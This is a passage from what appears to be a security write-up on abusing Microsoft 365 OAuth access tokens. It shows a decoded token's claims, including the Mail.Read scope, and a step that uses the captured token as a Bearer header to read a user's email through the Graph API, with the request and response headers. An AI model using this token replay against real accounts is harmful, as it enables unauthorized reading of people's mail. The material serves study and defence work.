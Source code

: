 ```
    "name": "Carl Jenkins",
    "oid": "[REDACTED]",
    "platf": "5",
    "puid": "[REDACTED]",
    "rh": "[REDACTED]",
    "scp": "Analytics.Read Contacts.Read email Mail.Read openid profile User.Read",
    "signin_state": [
        "kmsi"
    ],
    "sub": "[REDACTED]",
    "tenant_region_scope": "NA",
    "tid": "[REDACTED]",
    "unique_name": "carl.jenkins@M365xxxxxx.onmicrosoft.com",
    "upn": "carl.jenkins@M365xxxxxx.onmicrosoft.com",
    "uti": "[REDACTED]",
    "ver": "1.0",
    "wids": [
        "[REDACTED]"
    ],
    "xms_st": {
        "sub": "[REDACTED]"
    },
    "xms_tcdt": 1583956644
}
```

### Step 4: Graph API Access

Once we have obtained the user's access token, we can leverage it to access data via the Azure Graph API by setting the token as the `Authorization: Bearer` header.

#### Request
Requesting a user's emails via the Graph API:

```
GET /v1.0/users/carl.jenkins@M365xxxxxx.onmicrosoft.com/messages HTTP/1.1
Host: graph.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
DNT: 1
Upgrade-Insecure-Requests: 1
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Authorization: Bearer [REDACTED]
```

> Access token has been truncated

#### Response
```
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: application/json;odata.metadata=minimal;odata.streaming=true;IEEE754Compatible=false;charset=utf-8
Vary: Accept-Encoding
request-id: ba02169a-7dea-48ff-b509-800e0502c253
client-request-id: ba02169a-7dea-48ff-b509-800e0502c253
x-ms-ags-diagnostic: {"ServerInfo":{"DataCenter":"North Central US","Slice":"SliceC","Ring":"3","ScaleUnit":"003","RoleInstance":"AGSFE_IN_31"}}
OData-Version: 4.0
Strict-Transport-Security: max-age=31536000
Date: Tue, 27 Oct 2020 19:51:13 GMT
Connection: close
```